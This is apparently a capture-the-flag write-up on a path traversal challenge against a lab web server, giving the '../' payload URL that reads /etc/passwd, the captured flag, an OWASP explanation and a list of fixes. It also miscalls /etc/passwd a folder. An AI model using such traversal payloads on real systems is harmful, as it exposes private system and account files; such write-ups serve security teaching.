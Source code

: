 # Include

All websites running on UNIX contain a folder `/etc/passwd` which contains the attributes of each user/account on a Linux or another Unix-like operating system.

By adding `/?page=../` to our url and using the displayed indices we can go back to the `/etc/passwd`.

Path: <http://192.168.31.135/?page=../../../../../../../etc/passwd>

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

## Explanation

Attack type: [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

> A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. 

## How to fix it

1) Do not use user input when using file system calls
2) Use indexes rather than actual portions of file names when templating or using language files
3) Ensure the user cannot supply all parts of the path – surround it with your path code
4) Validate the user’s input by only accepting known good – do not sanitize the data
5) Use chrooted jails and code access policies to restrict where the files can be obtained or saved to
6) If forced to use user input for file operations, normalize the input before using in file io API’s, such as normalize().
